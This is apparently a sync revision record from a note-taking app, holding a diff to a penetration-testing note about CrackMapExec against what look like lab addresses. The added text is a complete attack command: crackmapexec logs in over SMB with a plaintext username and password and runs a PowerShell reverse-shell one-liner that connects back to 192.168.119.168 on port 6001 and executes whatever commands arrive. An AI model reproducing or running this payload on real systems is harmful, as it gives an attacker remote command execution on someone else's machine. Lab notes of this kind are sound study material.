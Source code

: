 id: 467ba60a481e4355bfc9ca2996d5642a
parent_id: f273dc857413438389ee78535d93e5d2
item_type: 1
item_id: 675162c6268c4652933f50981ec28893
item_updated_time: 1650601584762
title_diff: "[{\"diffs\":[[0,\"kMapExec\"],[1,\"\\\r\"]],\"start1\":4,\"start2\":4,\"length1\":8,\"length2\":9}]"
body_diff: "[{\"diffs\":[[0,\"dule\"],[-1,\" \"],[0,\"\\\n\\\nTo\"]],\"start1\":1734,\"start2\":1734,\"length1\":9,\"length2\":8},{\"diffs\":[[0,\"ell.exe'\"],[1,\"\\\n> \\\n> crackmapexec smb 10.11.1.121 -u sqlServer -p shantewhite -x 'powershell -nop -c \\\"$client = New-Object System.Net.Sockets.TCPClient(\\\\\\\\'192.168.119.168\\\\\\\\',6001); $stream = $client.GetStream(); \\\\[byte\\\\[\\\\]\\\\]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + \\\\\\\\'PS \\\\\\\\' + (pwd).Path + \\\\\\\\'> \\\\\\\\';$sendbyte = (\\\\[text.encoding\\\\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()\\\"'\"],[0,\"\\\n\\\n![0b7d\"]],\"start1\":2638,\"start2\":2638,\"length1\":16,\"length2\":634}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T04:26:57.682Z
created_time: 2022-04-22T04:26:57.682Z
type_: 13